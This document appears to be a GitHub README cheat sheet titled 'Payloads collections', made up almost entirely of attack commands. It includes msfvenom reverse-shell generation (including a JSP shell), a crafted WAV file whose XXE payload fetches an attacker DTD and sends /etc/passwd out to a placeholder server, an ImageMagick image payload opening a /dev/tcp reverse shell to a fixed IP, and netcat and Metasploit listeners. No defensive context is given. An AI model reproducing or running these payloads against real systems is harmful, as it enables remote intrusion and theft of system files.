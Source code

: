# Payloads collections

## Summary
* [Commands for Msfvenom](#commands-for-msfvenom)
* [Payload for WAV exploitation](#payload-for-wav-exploitation)
* [Payload for JPG or PNG file](#payload-for-png-or-jpg)
* [Craft scripts with Metasploit](#use-metasploit-to-craft-a-shell-script)
* [Listener with Metasploit](#setup-a-listener-with-metasploit-modules)

## Commands for Msfvenom
```
msfvenom -p [payloads] LHOST=[ip] LPORT=[port] -f [extension] -o [payload name]
```
List all available payloads
```
msfvenom --list payloads
```
Payload for Java code base (.WAR) file
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f [file type] -o [output]
```

## Payload for WAV exploitation
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```
Create a new file NAMEEVIL.dtd
```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/ passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```
Start a listener
```
php -S 0.0.0.0:PORT
```
To decode zlip base64 strings
```
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Payload for PNG or JPG
```
push graphic-context
encoding UTF-8
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.4.64.135/80 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
Start a listener
```
rlwrap nc -lvnp 80
```

## Use Metasploit to craft a shell script
```
use exploit/multi/script/web_delivery
```

## Setup a listener with Metasploit modules
```
use exploit/multi/handler
```
